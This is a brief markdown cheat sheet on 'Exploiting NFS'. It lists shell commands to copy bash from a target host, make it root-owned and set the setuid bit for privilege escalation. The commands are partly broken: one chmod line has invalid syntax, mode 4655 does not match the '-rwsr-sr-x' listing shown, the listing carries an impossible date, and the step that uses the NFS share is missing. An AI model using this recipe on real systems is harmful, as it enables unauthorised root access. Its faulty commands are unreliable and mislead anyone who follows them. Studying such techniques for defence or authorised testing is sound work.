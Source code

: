 # Exploiting NFS
Techniques to exploit the Network File System.

When developing exploits you may run into compatibility issues. One way to ensure you have the same environment is to download it from the target.
```sh
scp -i <key> username@10.10.10.10:/bin/bash .
```

Modify the file permissions to `root`
```sh
sudo chown root bash
```

Modify the `setuid` bit using either method:
```sh
sudo chmod u=rwxs, g=rx, o=rx bash
sudo chmod 4655 bash

ls -lia
-rwsr-sr-x 1 root   root   1113504 May 00 00:00 bash
```
